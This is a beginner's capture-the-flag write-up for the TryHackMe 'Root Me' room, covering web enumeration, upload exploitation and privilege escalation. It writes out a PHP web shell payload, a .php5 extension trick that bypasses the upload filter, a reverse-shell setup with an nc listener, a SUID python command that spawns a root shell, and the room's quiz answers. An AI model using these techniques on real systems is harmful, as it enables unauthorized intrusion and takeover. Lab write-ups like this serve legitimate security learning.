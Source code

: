 {Title}
## **Introduction**

📊 Difficulty : Easy

Root Me a room available on [TryHackMe](https://tryhackme.com) describing itself as a CTF for beginners tackling web exploitation from enumeration to privilege escalation.

Link to the room : https://tryhackme.com/room/rrootme

--- 
# **Reconnaissance**

> *First, let's get information about the target.*

As per usual when attacking a system, the first step is to enumerate open ports for potential entry points. Using our beloved `nmap`, we find 2 open ports on the target machine.

```
nmap MACHINE_IP
```

![[20250829-Root Me.png]]

We find that port 80 is open, meaning that the target system is hosting a web page. Let's access it. 

![[20250829-Root Me-1.png]]

By opening the Inspect tool and going to the Networking tab, we can view the `GET` request made by our client when requesting the web page, as well as the response provided by the server. In the header of said response, we'll usually be looking for Set-Cookie, Web Server name and versions. In our case, we get that the web server of the web page is Apache/2.4.41. This information can be useful if we were to search for vulnerabilities and exploits associated with this specific version of the web server. 

![[20250829-Root Me-2.png]]

The web page doesn't seem to have anything interesting for us to exploit. Maybe we should try to enumerate for hidden directories using tools like `dirb` or `GoBuster` : 

```
gobuster dir -u http://MACHINE_IP -w WORDLIST
```

I used the pre-installed wordlist `common.txt` from Kali Linux located at `/usr/share/dirb/wordlists`.

![[20250829-Root Me-3.png]]

We find multiple directories. We can take a look at each one, but the one that interests us is the ```panel``` directory. Accessing it, we obtain a page allowing users to upload files. When clicking the Upload button, we are presented with a message stating that our file has been successfully archived. 

![[20250829-Root Me-4.png]]

We can click the ``Veja!`` text to view the file, which is stored in the `/uploads` directory.

![[20250829-Root Me-5.png]]


### Q. Scan the machine, how many ports are open?

**Answer** : 2

### Q. What version of Apache is running?

**Answer** : Apache/2.4.41

### Q. What service is running on port 22?

**Answer** : ssh

### Q. Find directories on the web server using the GoBuster tool.  

### Q. What is the hidden directory?

**Answer** : /panel


# Getting a shell

> *Find a form to upload and get a reverse shell, and find the flag.*

Using the previously found directory, we quickly understand that we can obtain a web shell by uploading `.php` files to make the server execute specific commands.

Let's create our payload : 

```
nano script.php
```

```
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
```

Now that our file is ready, let's try to upload it.

![[20250829-Root Me-6.png|509x349]]

It seems the website has a filter to block `.php` scripts from being uploaded. That would have been a problem if there weren't so many ways to bypass this filter. After doing a bit of research, I found that multiple extensions could do the trick as some filters are programmed to stop reading file names after encountering the first file extension.

I tried renaming the script to `script.jpg.php`. It didn't work.

I found that different file extensions could be used to execute PHP scripts, including ``.php5`` and ``.phtml``. So I renamed the file to `script.php5` and it worked ! The script was successfully uploaded to the web server.

Now, we are free to execute whichever command we want by injecting commands directly in the URL bar using the following syntax : 

```
http://MACHINE_IP/uploads/script.php5?cmd=COMMAND
```

![[20250829-Root Me-7.png]]

Using this web shell, we manage to find the ``user.txt`` file and obtain the flag : 

```
http://MACHINE_IP/uploads/script.php5?cmd=find / -type f -name user.txt
```
![[20250829-Root Me-8.png]]

```
http://MACHINE_IP/uploads/script.php5?cmd=cat /var/www/user.txt
```

## Privilege Escalation

> *Now that we have a shell, let's escalate our privileges to root.*

Typical ways to find privilege escalation vectors include :
- running `sudo -l`
- looking at scheduled tasks in `/etc/crontab`
- looking for binaries with the SUID bit set

Since neither sudo -l and /etc/crontab neither return anything of interest, let's look at the processes with the SUID bit set : 

```
find / -type f -perm -04000 -ls 2>/dev/null
```

![[20250829-Root Me-9.png]]

We find that python, owned by root, has the SUID bit set. Searching on [GTFObins](https://gtfobins.github.io/), we find that python can be used to perform privilege escalation by running the following command : 

```
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

And it is here that I found myself stuck. Although the script I injected enabled me to execute commands via the URL bar, the shell wasn’t interactive. This meant I couldn’t use the output of previous commands as input for new ones. The command listed on [GTFOBins](https://gtfobins.github.io/?utm_source=chatgpt.com) uses the `os.execl` function to spawn a new shell, but in my current setup, I had no way to interact with that new shell.

I had to find something else.

After a bit of searching, I stumbled upon a PHP script allowing an attacker to obtain a shell on a listening port.

Link to the script : https://github.com/pentestmonkey/php-reverse-shell

![[20250829-Root Me-10.png]]

Changing the IP and port to the ones of the attacker, we can upload the script and launch a listener on our machine to receive the connection : 

```
nc -nlvp 1234
```

![[20250829-Root Me-11.png]]

Now we can run the command previously discussed command :

![[20250829-Root Me-12.png]]

We successfully escalated our privilege. We can now go to /root to obtain the flag and complete the room.

### Q. Search for files with SUID permission, which file is weird?

Answer : python


---
# Conclusion 

Root Me is a pretty popular room on [TryHackMe](https://tryhackme.com) and for good reasons. It successfully manages to guide users through the different stages of web exploitation and showcases how easily attackers can enter a system if the latter isn't properly secured. 